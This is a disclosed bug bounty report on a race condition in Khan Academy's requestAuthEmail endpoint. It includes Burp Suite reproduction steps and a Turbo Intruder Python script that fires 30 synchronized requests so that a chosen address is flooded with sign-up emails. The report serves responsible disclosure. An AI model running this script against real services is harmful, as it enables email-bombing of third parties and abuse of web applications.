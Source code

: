 # The endpoint /api/internal/graphql/requestAuthEmail on Khanacademy.or is vulnerable to Race Condition Attack.

## Report Details
- **Report ID**: 1293377
- **URL**: https://hackerone.com/reports/1293377
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-06T10:50:09.125Z
- **Disclosed**: 2022-03-22T21:31:22.779Z

## Reporter
- **Username**: sim4n6
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: khanacademy

## Vulnerability Information
## Summary 

The endpoint `/api/internal/graphql/requestAuthEmail` on `www.khanacademy.org` is vulnerable to a _Race condition attack_. That may cause a random e-mail user to receive an important amount of emails to **Finish signing up for Khan Academy** with invalid links. The attack is because _your web applications checks the state of a resource (endpoint) before using that resource, but the resource's state can change between the check and the use in a way that invalidates the results of the check. This can cause the software to perform invalid actions when the resource is in an unexpected state._  

## Steps to reproduce:

1. Connect to an account on www.khanacademy.org.
1. Go to your ** Profile name > Settings > Account tab > Linked accounts > Connect another email.**
1. Confirm your identity by providing your password.

█████

4. Write out a valid email, and then intercept the request using Burp Suite at least community edition when you click on **Send confirmation email**. Downgrade the HTTP communication protocol to `HTTP 1.1` and add the following header to the request : `X-Request: %s` (for the Turbo intruder extension).
5. Send the intercepted request to Turbo intruder burp suite extension, and use the following python code to perform the attack :

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

6. Start the attack, the results are a lot of `200 OK` as can be shown in the following screenshot:

{F1401913}

As you can, I've send only 30 requests in a small time frame.  
7. The results is definitely an unwanted behavior. Where a random user, in our case `███` receives **30** emails inviting him to finish signing up for Khan-academy. 

{F1401914}

8. The invitation link within those e-mails are most invalid and produce the following error.

{F1401915}

9. This behavior is not expected by your system since if you try to add an already added email your get the following warning.

███████

## Impact

* The endpoint `/api/internal/graphql/requestAuthEmail` on [www.khanacademy.org](https://www.khanacademy.org) is vulnerable to a Race condition attack. That may cause a bombing e-mail a random user with an important amount of emails (in our PoC we had only 30 but it could be much more). The emails sent are **Finish signing up for Khan Academy** with mostly invalid links.

## Attachments
- 2.png
- 3.png
- 4.png
